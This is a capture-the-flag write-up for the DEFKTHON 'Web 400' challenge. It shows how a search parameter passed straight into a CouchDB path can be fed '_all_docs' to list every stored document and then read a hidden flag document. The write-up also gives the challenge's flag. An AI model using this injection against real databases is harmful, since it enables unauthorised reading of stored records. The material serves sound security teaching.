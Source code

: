 # DEFKTHON CTF: Web 400

**Description:**

> [Search Me](http://54.201.96.212:888/web400/web_search.php)

## Write-up

The `web_search.php` endpoint contains a form, and (by default) displays the following error message:

```
Error: Document ID is empty (errcode=0)
```

Let’s enter `test` in the search field and submit the form. [The response](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=test) contains:

```
Error: Object Not Found - missing (GET /astro_users/test []) (errcode=404)
```

[This error message format](https://www.google.com/search?q=%22Object%20Not%20Found%20-%20missing%22) is a hint that CouchDB is used.

CouchDB has [an `_all_docs` endpoint](http://couchdb.readthedocs.org/en/latest/api/database/bulk-api.html#get--db-_all_docs) that returns a list of all available documents in the database, in JSON format. (Note: [`_changes`](http://couchdb.readthedocs.org/en/latest/api/database/changes.html) could be used as well.) [Let’s take a look](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=_all_docs):

```
stdClass Object
(
    [total_rows] => 3
    [offset] => 0
    [rows] => Array
        (
            [0] => stdClass Object
                (
                    [id] => flag_for_l33ts
                    [key] => flag_for_l33ts
                    [value] => stdClass Object
                        (
                            [rev] => 4-f9d777fcf20c3fc52943aeba961593e9
                        )

                )

            [1] => stdClass Object
                (
                    [id] => userid1
                    [key] => userid1
                    [value] => stdClass Object
                        (
                            [rev] => 3-3125d533dea89836adec3b8a5a652030
                        )

                )

            [2] => stdClass Object
                (
                    [id] => userid2
                    [key] => userid2
                    [value] => stdClass Object
                        (
                            [rev] => 5-0090aa4c0db1f8d52a74d6134b2e48ef
                        )

                )

        )

)
```

`flag_for_l33ts` sounds interesting. [Let’s check it out](http://54.201.96.212:888/web400/web_search.php?submit=Submit&search=flag_for_l33ts):

```
stdClass Object
(
    [_id] => flag_for_l33ts
    [_rev] => 4-f9d777fcf20c3fc52943aeba961593e9
    [flag_for_l33ts_only] => flag{here_you_go_nice_solving_webChalLenges}
)
```

The flag is `here\_you\_go\_nice\_solving\_webChalLenges`.

## Other write-ups and resources

* <http://tasteless.eu/2014/03/defkthon-ctf-2014-web200-web300-and-web400-writeup/>
